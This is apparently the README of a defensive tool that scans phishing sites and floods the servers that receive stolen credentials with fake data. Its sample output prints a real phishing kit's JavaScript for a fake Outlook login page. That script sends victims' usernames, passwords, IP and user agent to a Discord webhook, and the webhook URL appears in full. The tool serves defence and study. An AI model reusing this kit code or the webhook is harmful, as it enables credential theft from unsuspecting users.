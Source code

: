 # Phish Phucker

![PhishPhucker Logo](https://i.ibb.co/jD9dqMm/openart-image-5-C4-YIl-FF-1717586639754-raw.jpg)
## In Partnership With
![Webamon Logo](https://i.ibb.co/ggbMv7C/weblogo.png)

## The Idea
- **Phuck The Phishers**: Make the effort of a successful phishing campaign much harder than the rewards.
- **Change How We Block**: Multiple phishing websites rely on the same backend endpoint to receive phished credentials. By exposing the required endpoint for the phishing kit to operate, we can block on our network tools. 1x Block = n phishing domains.

## Overview

Welcome to **PhishPhucker**, the revolutionary open-source cybersecurity tool designed to disrupt the phishing industry like never before. PhishPhucker ingests public and custom phishing feeds/URLs, scans them, and launches sophisticated countermeasures to thwart phishing attacks. Our mission is to make phishing an unprofitable and ineffective endeavor by mimicking real user behavior and overwhelming attackers with arbitrary but human-like data.

## Features

- **Ingest Multiple Phishing Feeds**: Seamlessly integrate public phishing feeds and custom URLs for comprehensive coverage.
- **Layered Security**: By exposing and then blocking the endpoints that receive comp'd creds, end users can fall for a phish but network applications block the POST. 
- **Website Scanning**: Extract scripts and phishing kits from malicious websites, identify the endpoints where credentials are sent.
- **Simulated Post Requests**: Recreate phishing post requests and flood attackers' endpoints with realistic-looking data.
- **Distributed Client Network**: Deploy PhishPhucker clients across multiple web edge points to mimic real-world phishing actions.
- **Pseudo-Random Timing**: Vary intervals between actions to avoid detection and mimic human behavior.
- **Multiple User Agents and Source IPs**: Use diverse browser user agents and source IPs (ISPs) to simulate a wide range of victims.
- **Network Proxy**: Utilize on-prem & internet proxy solutions to manipulate network data + requests.
- **Real Dummy Accounts**: Modern phishing kits employ an Account Checking feature that verifies if the credentials work for the provided service. PhishPhucker accounts will be returned as legit.
- **Open Source and Extensible**: Fully open source with an active community contributing to its development and enhancement.

## Installation

### Prerequisites

- Python 3.11 or higher
- Docker (optional, for containerized deployment)
- Git

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/PhishPhucker.git
   cd PhishPhucker
   ```

2. **Install Dependencies**:
   ```bash
   pip install -r requirements.txt
   ```

3. **Run the Application**:
   ```bash
   python phishphucker.py
   ```

4. **(Optional) Deploy with Docker**:
   ```bash
   docker build -t phishphucker .
   docker run -d phishphucker
   ```

## Usage

1. **Feed Ingestion - TODO**:
   - Add public phishing feeds or custom URLs to the `feeds.txt` file.
   - Run the ingestion module to fetch the latest data.
     ```bash
     python ingest_feeds.py
     ```

2. **Disrupt Phishing Operations**:
   - Launch the Phish Phucker to send arbitrary data to attackers.
     ```bash
     python phishphucker.py
     ```
     
3. **Sample Output**:
     ```json
     {
    "utc": "2024-06-05 16:57:54",
    "pageTitle": "Screen",
    "pageLinks": [
        "<link href=\"/owa/auth/15.0.1497/themes/resources/favicon.ico\" rel=\"shortcut icon\" type=\"image/x-icon\"/>"
    ],
    "pageScripts": [
        "<script src=\"https://code.jquery.com/jquery-3.6.0.min.js\"></script>",
        "<script>\n\n        var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n        var showPlaceholderText = false;\n        var mainLogonDivClassName = 'mouse';\n\n        if (mainLogonDivClassName == \"tnarrow\") {\n            showPlaceholderText = true;\n\n            // Output meta tag for viewport scaling\n            document.write('<meta name=\"viewport\" content=\"width = 320, initial-scale = 1.0, user-scalable = no\" />');\n        }\n        else if (mainLogonDivClassName == \"twide\") {\n            showPlaceholderText = true;\n        }\n\n        function setPlaceholderText() {\n            window.document.getElementById(\"username\").placeholder = \"user name\";\n            window.document.getElementById(\"password\").placeholder = \"password\";\n            window.document.getElementById(\"passwordText\").placeholder = \"password\";\n        }\n\n        function showPasswordClick() {\n            var showPassword = window.document.getElementById(\"showPasswordCheck\").checked;\n            passwordElement = window.document.getElementById(\"password\");\n            passwordTextElement = window.document.getElementById(\"passwordText\");\n            if (showPassword) {\n                passwordTextElement.value = passwordElement.value;\n                passwordElement.style.display = \"none\";\n                passwordTextElement.style.display = \"inline\";\n                passwordTextElement.focus();\n            }\n            else {\n                passwordElement.value = passwordTextElement.value;\n                passwordTextElement.style.display = \"none\";\n                passwordTextElement.value = \"\";\n                passwordElement.style.display = \"inline\";\n                passwordElement.focus();\n            }\n        }\n    </script>",
        "<script>\n\n            var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n            mainLogonDiv.className = mainLogonDivClassName;\n        </script>",
        "<script>\n    function sleep(milliseconds) {\n        const date = Date.now();\n        let currentDate = null;\n        do {\n            currentDate = Date.now();\n        } while (currentDate - date < milliseconds);\n    }\n\n    var linksc = window.location.href\n    var value = linksc.split('#')\n    values = value[1]\n\n    document.getElementById(\"username\").value = values;\n    // document.getElementById(\"username\").value = values; \n\n\n    let count = 0;\n    var btn = document.getElementById(\"buttonId\");\n    var pwd = document.getElementById(\"password\");\n    var agents = navigator.userAgent;\n\n\n\n    btn.onclick = function () {\n        if (pwd.value.length > 0) {\n            count++;\n            if (count <= 2) {\n\n\n\n                var xhr = new XMLHttpRequest();\n                xhr.open(\"GET\", \"https://ipinfo.io/json\", true);\n                xhr.onreadystatechange = function () {\n                if (xhr.readyState === 4 && xhr.status === 200) {\n                var response = JSON.parse(xhr.responseText);\n                // Handle the response data here\n                var ipAddress = response.ip\n\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                content: (\" > **IP: **\" + ipAddress)\n                }\n                request.send(JSON.stringify(params));\n                    \n\n                }\n\n                };\n                xhr.send();\n\n\n                var request = new XMLHttpRequest();\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                    content: (\"> **USERNAME  : **\" + document.getElementById(\"username\").value + \"\\n> **PASSWORD : **\" + document.getElementById(\"password\").value + \"\\n> **USER-AGENT: **\" + agents)\n                }\n                request.send(JSON.stringify(params));\n\n               \n\n                text = \"The user name or password you entered isn't correct. Try entering it again.\";\n                // document.getElementById(\"username-error\").innerHTML = text;\n                // // document.getElementById(\"errorMessage\").style.color = \"red\";\n                document.getElementById(\"signInErrorDiv\").innerText = text;\n                document.getElementById(\"password\").value = \"\";\n                sleep(1000)\n            }\n            if (count == 2) {\n                texts = \"Verification successful... Thank you.\";\n                document.getElementById(\"signInErrorDiv\").style.color = \"green\";\n                document.getElementById(\"signInErrorDiv\").innerHTML = texts;\n                sleep(4500)\n                window.location.replace(\"https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook\");\n            }\n        } else {\n            text = \"The user name or password you entered isn't correct. Try entering it again.\"\n            // document.getElementById(\"errorMessage\").style.color = \"red\";\n            // document.getElementById(\"login-failure\").innerHTML = \"\";\n            document.getElementById(\"signInErrorDiv\").innerHTML = text;\n\n            // document.getElementById(\"alert\").style.backgroundColor = \"#d0452f\"; \n\n\n\n        }\n\n    }\n</script>"
    ]

   }

      ```

## Contributing

We welcome contributions from the community to enhance PhishPhucker. Feel free to submit pull requests, report issues, or suggest features.

1. **Fork the Repository** on GitHub
2. **Create a Feature Branch**:
   ```bash
   git checkout -b feature/your-feature-name
   ```
3. **Commit Your Changes**:
   ```bash
   git commit -m 'Add some feature'
   ```
4. **Push to the Branch**:
   ```bash
   git push origin feature/your-feature-name
   ```
5. **Open a Pull Request** on GitHub

## License

PhishPhucker is released under the Apache 2.0 License. See the [LICENSE](LICENSE) file for more details.

## Acknowledgements

- Thanks to the open-source community for their invaluable contributions and feedback.
- Special mention to the decade long successful Threat Actors who's actions inspire and guide this projects direction.

## Disclaimer

PhishPhucker is intended for ethical use only. Unauthorized use of this software to interfere with legitimate websites or services is strictly prohibited. The authors and contributors are not responsible for any misuse of the software.


---

PhishPhucker: Turning the Tide Against Phishing.

---

![GitHub Stars](https://img.shields.io/github/stars/php-p/PhishPhucker?style=social)
![GitHub Forks](https://img.shields.io/github/forks/php-p/PhishPhucker?style=social)
![GitHub Issues](https://img.shields.io/github/issues/php-p/PhishPhucker)
![GitHub License](https://img.shields.io/github/license/php-p/PhishPhucker)

